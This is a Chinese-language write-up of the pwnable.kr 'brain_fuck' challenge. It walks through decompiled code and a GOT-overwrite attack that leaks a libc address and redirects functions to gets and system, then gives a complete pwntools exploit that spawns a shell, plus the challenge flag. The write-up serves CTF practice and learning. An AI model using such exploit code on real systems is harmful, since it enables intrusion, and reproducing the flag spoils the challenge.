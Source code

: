 ```yaml
---

layout: post

title: 'pwnable.kr之brain_fuck'

date: '2017-05-01'

header-img: "img/home-bg.jpg"

tags:
     - pwnable.kr
author: 'De4dCr0w'

---
```


<!-- more -->

### 题目源码 ###

> main函数的代码

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int result; // eax@4
	  int v4; // edx@4
	  size_t i; // [sp+28h] [bp-40Ch]@1
	  int v6; // [sp+2Ch] [bp-408h]@1
	  int v7; // [sp+42Ch] [bp-8h]@1
	
	  v7 = *MK_FP(__GS__, 20);
	  setvbuf(stdout, 0, 2, 0);
	  setvbuf(stdin, 0, 1, 0);
	  p = (int)&tape;
	  puts("welcome to brainfuck testing system!!");
	  puts("type some brainfuck instructions except [ ]");
	  memset(&v6, 0, 0x400u);
	  fgets((char *)&v6, 1024, stdin);
	  for ( i = 0; i < strlen((const char *)&v6); ++i )
	    do_brainfuck(*((_BYTE *)&v6 + i));
	  result = 0;
	  v4 = *MK_FP(__GS__, 20) ^ v7;
	  return result;
	}


> do_brainfuck函数的代码

	int __cdecl do_brainfuck(char a1)
	{
	  int result; // eax@1
	  int v2; // ebx@7
	
	  result = a1;
	  switch ( a1 )
	  {
	    case 62:
	      result = p++ + 1;
	      break;
	    case 60:
	      result = p-- - 1;
	      break;
	    case 43:
	      result = p;
	      ++*(_BYTE *)p;
	      break;
	    case 45:
	      result = p;
	      --*(_BYTE *)p;
	      break;
	    case 46:
	      result = putchar(*(_BYTE *)p);
	      break;
	    case 44:
	      v2 = p;
	      result = getchar();
	      *(_BYTE *)v2 = result;
	      break;
	    case 91:
	      result = puts("[ and ] not supported.");
	      break;
	    default:
	      return result;
	  }
	  return result;
	}

### 做题的思路 ###

![](http://i.imgur.com/uRWhzSJ.png)

首先这题没找到溢出点，memset分配了1024，fget也只限定输入1024，然后do_brainfuck也只是做了一些编码的操作，里面有个getchar函数感觉用不了  
导入函数里面并没有write和read函数，感觉无法leak，找到了一个__stack_chk_fail,不知道怎么用    

但是题目给了bf_libc.so文件，肯定要进行泄露然后得到getshell，题目开启了NX和canary，比较难，NX用ret2libc绕过，canary用暴力破解？
  
v6缓冲区离canary正好是1024的大小  
0xbfffeb1c
EAX = 0xb 加了换行  
ebx = 0，计数器i保存在[esp+28h]处  
buf保存在[esp+2Ch]处  
canary保存在[esp+42Ch]处  

没有具体分析do_brainfuck函数，还是没有认真分析，老想看网上教程

* **> : p ++**
* **< : p --**
* **+ : ++(*p)**
* **- : --(*p)**
* **. : putchar(*p) 打印p指针**
* **, : getchar 给p指针赋值**

因为p指针地址在bss上，离data段，上去就是.got.plt段，思路：可以通过移动p指针，改写.got.plt上的函数  
.got.plt:0804A030 off_804A030     dd offset putchar       ; DATA XREF: _putcharr  
.bss:0804A080 p               dd ?  

![](http://i.imgur.com/PRJWdNF.png)

![](http://i.imgur.com/5aflMFC.png)

tape的地址可以从gdb调试中获取 

需要偏移的p指针offset = 0x0804A080-0x0804A030 = 0x50

思路还是太窄

可以跳回到main函数再执行一次

.got.plt:0804A02C off_804A02C     dd offset memset
.got.plt:0804A010 off_804A010     dd offset fgets

**如何根据so文件泄露函数的真实地址？**  
根据泄露putchar函数的真实地址（gdb中可以通过print打印出来），然后根据so文件泄露其它函数地址，因为他们相对偏移是不变的  

首先通过得到putchar函数运行时的地址，计算出其它函数真实的地址，覆盖putchar函数到main函数  

**不知道main函数的地址**，main函数的地址好像是不变的,main_addr = 0x8048671
这里要注意地址小端问题，这里直接赋值应该没问题

**怎么寻找/bin/sh的地址？**
这里可以通过gets函数来输入，输入放在哪？又怎么作为system的参数

![](http://i.imgur.com/Px2pwzS.png)

因为我们把memset覆盖成gets函数，栈空间是不变的，所以我们传进去的/bin/sh保存在v6上，然后覆盖fgets为system函数，此时system的参数就是v6就已经传进来了。

**不理解为什么一开始要调用一次putchar**，明明两个连续的'.'，但是结果不一样，这里我想是不是因为延迟绑定的原因，先将p指针压入栈中，因为此时got表还没绑定putchar，所以得到的地址并不是putchar的地址。
这题不知道怎么调试，每次调试都会跳进do_brain_fuck的循环里面，我明明是在收到第二次"type some brainfuck instructions except [ ]\n"附加gdb的


### exploit代码 ###

	from pwn import *
	import time
	
	context.log_level = 'debug'

	p = process("./bf")
	#p = remote('pwnable.kr',9001)
	#libc = ELF('bf_libc.so')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')

	putchar_got = 0x0804A030
	memset_got = 0x0804A02C
	fgets_got = 0x0804A010
	pt_got = 0x0804A0A0
	
	putchar_libc = libc.symbols['putchar']
	gets_libc = libc.symbols['gets']
	memset_libc = libc.symbols['memset']
	system_libc = libc.symbols['system']
	
	p.recvuntil("type some brainfuck instructions except [ ]\n")
	payload = '.'+(pt_got - putchar_got)*'<' + '.>'*4 #泄露putchar函数地址
	payload += '<'*4 + ',>'*4 #覆盖putchar函数为main函数
	payload += (putchar_got - memset_got + 4)*'<' + ',>'*4  #覆盖memset函数为gets函数，+4是因为之前putchar函数已经被覆盖了，算偏移到倒回去4
	payload += (memset_got - fgets_got + 4)*'<'+',>'*4 #覆盖fgets函数为system函数
	payload += '.' #调用putchar函数，实际上是main函数
	
	p.sendline(payload)

	print str(p.recv(1))
	putchar_addr = u32(p.recv(4)) #接收putchar函数实际地址

	#gdb.attach(p)
	print putchar_addr

	#计算system函数gets函数的实际地址
	offset_addr = putchar_addr - putchar_libc
	system_addr = offset_addr + system_libc
	gets_addr = offset_addr + gets_libc
	
	binsh = '/bin/sh\0'
	
	main_addr = 0x8048671
	
	p.send(p32(main_addr))
	p.send(p32(gets_addr))
	p.send(p32(system_addr))
	p.recvuntil("type some brainfuck instructions except [ ]\n")
	
	p.sendline(binsh)
	p.interactive()

>flag :BrainFuck? what a weird language..